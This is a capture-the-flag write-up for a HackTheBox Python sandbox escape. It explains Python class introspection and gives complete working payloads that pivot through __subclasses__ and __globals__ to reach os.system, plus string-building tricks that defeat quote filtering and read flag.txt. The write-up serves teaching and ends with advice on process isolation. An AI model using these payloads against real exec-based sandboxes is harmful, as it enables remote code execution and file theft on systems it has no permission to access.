










# HackTheBox CyberApocalypse - Misc - Build Yourself In

## Python jail escape with filtered characters, pivoting from tuple to base classes to gain rce

Description: *The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?*

This challenges follows up on CyberApocalypse - Input as a Service. This previous challenge was a very basic python shell escape with no filters. 

## Follow along!

I've included a python script over at [/samples/build_yourself_in.py](../samples/build_yourself_in.py) which faithfully recreates the challenge. This recreates the meat of the problem. Keep in mind this script will use whatever version of python you currently have installed, so this writeup may become somewhat out of date.

The indexes of subclasses and even the presence of certain classes will vary based on python versions. These examples all worked remotely on the host and locally on my copy of python3 which is updated to the latest version as of the time of writing, 3.8.9.

There are also multiple ways to solve this problem, I try to discuss several additional ones of interest at the end but I encourage you to find your own way to pivot between objects, this is not an exhaustive explanation of all forms of python shell escape.

## Triage

When we connect to the provided IP and port with netcat we greeted with a familiar python shell. In this case it is python 3.8.9, which at the time of the writing is a modern and updated version with no outstanding exploits. Unlike the previous challenge, we do not get told the value of commands we enter as demonstrated in the following screenshot



However, we are able to gather information by making use of the `print` function. This will output the result of any statement we give it. 




## Analysis

Next I check to see if python builtins are available, in this case I checked for the `open` function since that was helpful for a previous and similar challenge. This failed and provided us with an interesting error which showed our code was called from the function `exec(text, {'__builtins__': None, 'print':print})`. This appears to overwrite `__builtins__ `, meaning we will not be able to call standard python functions in a *traditional* manner.



We need to find a way to use certain classes we always have access to in order to pivot to functions that we can call in order to execute arbitrary code. To overcome this hurdle, we need to figure out just what we have access to. My next test was to check for strings. However, that threw a different error. It appears the program is checking for quotes and removing them, in order to make the sandbox escape harder.



Iterating further looking for the datatypes I can use, I test integers, lists, floats, and tuples. You can see proof that all of these function in the following screenshots. From these elements, but specifically lists, integers, and tuples *we should be able to escape the sandbox*.



I then verify that from a base data type I am able to access its base class, since I am able to do that I should be able to escape and execute arbitrary python code without restriction as well as running shell commands.



### Quick explainer on python internals

#### There are so many attributes

Python makes heavy use of several programming language paradigms. Firstly, basically everything is an object. This means almost everything has variables that can be accessed with `.` notation, like `object.variable`. We can use the `dir(object)` function to find a list of variables an object has. For instance, we can call `dir(1)`. This will list the following from my (local) python shell.

```>>> dir(1)
['__abs__', '__add__', '__and__', '__bool__', '__ceil__', '__class__', '__delattr__', '__dir__', '__divmod__', '__doc__', '__eq__', '__float__', '__floor__', '__floordiv__', '__format__', '__ge__', '__getattribute__', '__getnewargs__', '__gt__', '__hash__', '__index__', '__init__', '__init_subclass__', '__int__', '__invert__', '__le__', '__lshift__', '__lt__', '__mod__', '__mul__', '__ne__', '__neg__', '__new__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__round__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'as_integer_ratio', 'bit_length', 'conjugate', 'denominator', 'from_bytes', 'imag', 'numerator', 'real', 'to_bytes']
```

You can then access any of these; however, you may get some syntax errors if you directly access them, for instance on an int you can't simple do ```1.bit_length```, this because python doesn't really intend you to do this with numbers specific. If you wrap it in parenthesis, you can then run ```(1).bit_length``` which will return ```<built-in method bit_length of int object at 0x8ff940>```, showing that this attribute is a method. In this case it will return the length of the int in bits but that is not especially relevant to this problem.

Now, there are some attributes that won't be listed by dir largely because they are present on almost every object and are rarely relevant in standard python use. 

#### Class and inheritance based attributes

One important attribute on basically everything in python is the `__class__` attribute. This is a pointer to the object representing the class of a variable. For instance, every int points back to the int class, every tuple points back to the tuple class, etc. In modern python3 every class, or at least all default classes, should extend the "object" class. This base class provides a number of functions and attributes by default which allow us to view information about it, such as inheritance information. __We can use this inheritance information to pivot to any class a given class extends and then pivot from that class to any classes that inherit it__. Since every class extends/inherits from the `object` class in python, this means all classes share the same base class and as such all classes are connected.

So from a given class object we can access the `__bases__` or `__base__` variable to access classes that it inherits from. From my research, `__base__` will appear if only a single class is inherited from and otherwise you will have to use `__bases__`. For instance, we can get the class object for a tuple by calling `().__class__`. We can then pivot to the `object` class, which is a base class of the tuple, by accessing the array at `().__class__.__bases__` and then accessing the first element, even though the order of the bases array is not guaranteed. Our final "payload" for accessing the `object` class is `().__class__.__bases__[0]` but `().__class__.__base__` will also work in most cases.

We can then pivot from the object class to any subclass of the class by calling the `__subclasses__` function. This will list every single class which inherits from the class in question. Since essentially everything inherits from `object`, we can then get a pointer to every single default class in python. This results in the following payload which will return an array with essentially every single class in python, `().__class__.__base__.__subclasses__()`. Then, we simply need to find the index of a class we want to access.

__This lets us pivot from ANY object we are allowed to create to ANY class in python, all while avoiding calling builtin python functions and other globals!__

As an important note before the next section, a class object isn't just some vague description of a class. It isn't like being told that an object is an `int` and nothing more. Rather, you are given a complete object representing that class and you are able to access any of its attributes. This notably includes all the functions and methods related to that object. For instance, the constructor of an object. 

#### Functions and their attributes

As previously mentioned, given a class we can access any methods of that class. For instance, if you have a pointer to a class you can access the `__init__` method which is used to create a new instance of that class and is defined on almost all classes. You don't normally direct call this, but if you're familiar with creating python classes this should be a familiar class name. Since this is python, functions and methods are also objects themselves. Since they are objects, we can then access their attributes. These attributes contain information on the function itself and also contain pointers to variables you may not have access to in your current scope.

For a given method we are able to access attributes like `__name__` which will tell us the original name of the method or `__qualname__` which tells us qualified name, essentially the name of the method and the class it was originally on, or even the `__doc__` attribute which explains what a function does. For instance, we can call `().__class__.__init__.__qualname__` and go from a tuple to the tuple class to its initializer and finally to the qualified name of the initializer, which reveals this is simply the inherited `object.__init__` initializer. Not every function object will have every attribute defined, but with some trial and error you can normally find a function with the needed object.

One especially useful attribute that is sometimes defined on a function or method is the `__globals__` attribute. This attribute contains the namespace of a function so that it can access any globals it relies on, __even though these globals may not be in the namespace you are calling the function from __. Functions often rely on variables, modules, and function in their current namespace and it is not guaranteed that namespace will exist when they are called. Because of this, they carry their namespace with them in the globals attribute. If a classes name has the format `module.class` it is likely that class is from a module, and as such the initializer will be carrying the global namespace for that module. This works for any function that relies on its own namespace, it does not need to be the initializer. However, be warned that not all functions will have the `__global__` attribute defined even if they are from another module, this largely occurs when the function does not need to access any of these global variables and is entirely self contained.

An example of this is shown in the following code which shows us accesing the global namespace of a function from the random module. If you want an example that does not work, most functions in the math module are self contained and as such don't need to bring their namespace with them.
```import random
print(random.randint.__globals__)
```

__This lets us pivot from ANY namespace to the namespace of ANY function we can access if it accesses its own namespace!__

We will use this technique later on to move from our own empty namespace to a namespace with functions we want to access.

[A page in the python docs that explains many of these variables that are present on functions](https://docs.python.org/3/library/inspect.html?highlight=__globals__).


## Exploit 

With the python explainer done, lets exploit this!

First we need a goal in mind. Mine is to start by executing `os.system("ls")` and then later `os.system("cat flag.txt")`. Due to how python classes are implemented, we can change this payload to accessing `os["system"]("ls")` which is typically easier to implement and is more likely to bypass any blacklists. Additionally, as a bit of foreshadowing, we don't even need to directly access the `os` module if we can access a namespace which imports the `system` function from `os`, using a line of python like `from os import system`. To do this we are going to build a number of "gadgets" that allow us to run an unsightly python function that results in a desired outcome. We need a gadget for string creation and a gadget for calling `os.system`. Once we have those two functions two things we can execute system commands and almost entirely bypass the sandbox.

Using the techniques talked about above to access arbitrary python classes, we print all the subclasses of the base `object` class. As discussed above, we pivot from a tuple, to the tuple class, to the object class, and finally to its list of subclasses. Every class here we can use, shown in the screenshot and in the following code snippet.



```[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'pickle.PickleBuffer'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class 'moduledef'>, <class 'module'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'zipimport.zipimporter'>, <class 'zipimport._ZipImportResourceReader'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```

There are 3 notable classes which will be useful in creating our gadgets. `<class 'os._wrap_close'>` (index 132) will allow us to pivot to functions in the OS module, `<class 'bytes'>` (index 6) will allow us to convert a list of integers to a python bytes object, and `<class 'str'>` (index 22) will let us convert objects into strings. We will need to the indexes of all of these classes. There are varying ways to find the index automatically, but simply guessing, counting, and trial and error work pretty well so I won't cover them.

### Creating a string with just tuples, class pivoting, and integer lists

If you are not familiar with python internal types of `bytes` and `str`, `str` represents normal text *str*ings in python like `"hello world"` and handles complexities like unicode and can later be converted into a bytes object while `bytes` represents arbitrary sequences of bytes which may not be valid unicode. However, bytes is especially useful here because when a bytes object is converted to a string it will display the bytes in (mostly) ascii form. Therefore, if we create a sequence of bytes that when converted to ascii text contains a given string, that string will be present when it is converted to a `str`.

So with bytes and string, we're going to do the following. First, since we are able to create lists of integers, we're going to create a list of integers where each integer is the representation of a single ascii digit in the desired string. We then convert this list of integers into a bytes object by calling the bytes class on it. Then, we convert the bytes into a string. However, the conversion won't be perfect since python will wrap `string` like `b"string"` to signify that it was a bytes object and not a standard string. To remove these excess characters we can simply slice the string, slicing from index 2 to just before the last index using `[2:-1]`. In standard python code, what we are doing looks like `str(bytes([115, 121, 115, 116, 101, 109]))[2:-1]` which is fairly straightforward.

However, we cannot access these classes since `builtins` has been overwritten. As such, we have to use the previously discussed technique to access the `bytes` and `str` class. Substituting these class names with the appropriate classs pivot code, we get the resulting payload, `().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[6]([115, 121, 115, 116, 101, 109]))[2:-1]`.

 Later on we'll use this to create different strings, the same process exact applies we just change the ascii values.



### Calling os.system with no imports or builtins

As previously discussed, it is possible for us to pivot to the namespace of any method we can access. While it is possible to pivot to a namespace with certain importer modules and then to import `os`, it is easier if we simply access a namespace that already has `system` imported. If you look at the list above `<class 'os._wrap_close'>` appears to be a class within the `os` module, and as such the globals in its namespace should contain the other functions and classes from the `os` module.

To access these globals we first get a reference to the class with `().__class__.__bases__[0].__subclasses__()[132]`. We then access its initialization function with `().__class__.__bases__[0].__subclasses__()[132].__init__`. Then, finally, we access its namespace globals with `().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__`. Printing it, we get the following.



Now, if you see that and think "Thats a lot of globals" you'd be absolutely correct. The OS module has an environment variable which contains the name and value of every environment variable currently set by the shell. In this case, it appears HackTheBox had an environment variable for every running docker instance! However, lets not get bogged down in the details surrounding this as it doesn't actually effect the exploit at all.

We can now put everything together to get our final exploit payload, `().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[6]([115, 121, 115, 116, 101, 109]))[2:-1]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[6]([99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]))[2:-1])`. 




This final exploit succesfully:

* Uses the class structure in python to pivot from a tuple to the os._wrap_close class to use the namespace from functions in that class to access functions in the OS module, without ever getting a direct reference to the OS object.
* Makes use of integer lists and class conversion to create arbitrary strings while bypass the input sanitization.

## Other approaches

While the actual CTF was running I didn't have much time to understand the implications of what my exploit was actually performing. When later reviewing the problem and writing this writeup I started to appreciate the incredibly big scope of what being able to use the namespace of other functions meant. Other approaches that I considered while writing this writeup included making use of the `__builtins__` object from another namespace. Accessing them in a way similar to `().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__["__builtins__"]` with neccesary string encoding. With a fresh builtins object I could do things like simply use the `open` function in order to read the flag.txt file, with a payload similar to `().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__["__builtins__"]["open"]("flag.txt").read()`.

For creating arbitrary strings, one approach I could have used had I not been able to use lists of integers would be accessing individual characters from doc strings. For instance, we can access the `__doc__` attribute of a tuple to get a reasonably comprehensive list of characters to select from. Then for characters that aren't in the documentation string, we can pivot to other classes that have the desired characters. For instance, the following should output "flag.txt", making use of the `<class '_frozen_importlib._ImportLockContext'>` class for an easy `x`.

`().__doc__[31]+().__doc__[3]+().__doc__[14]+().__doc__[38]+().__doc__[27]+().__doc__[4]+().__class__.__base__.__subclasses__()[87].__doc__[5]+().__doc__[4]`


## Security implications

Allowing untrusted python code, that is any python code you yourself did not write, should never be run in the same python process as code you did write. There is simply no safe way to have untrusted code as well as trusted code. If for some reason you want untrusted python code to be ran, I recommend process level isolation. Your python code should initiate a new process to handle the untrusted code, preferably making use of techniques such as chroot and unprivileged user accounts to limit the system resources that a user can access. In this case since these precaution were not taken, we were able to read from arbitrary files on the system as well as achieve remote code execution.


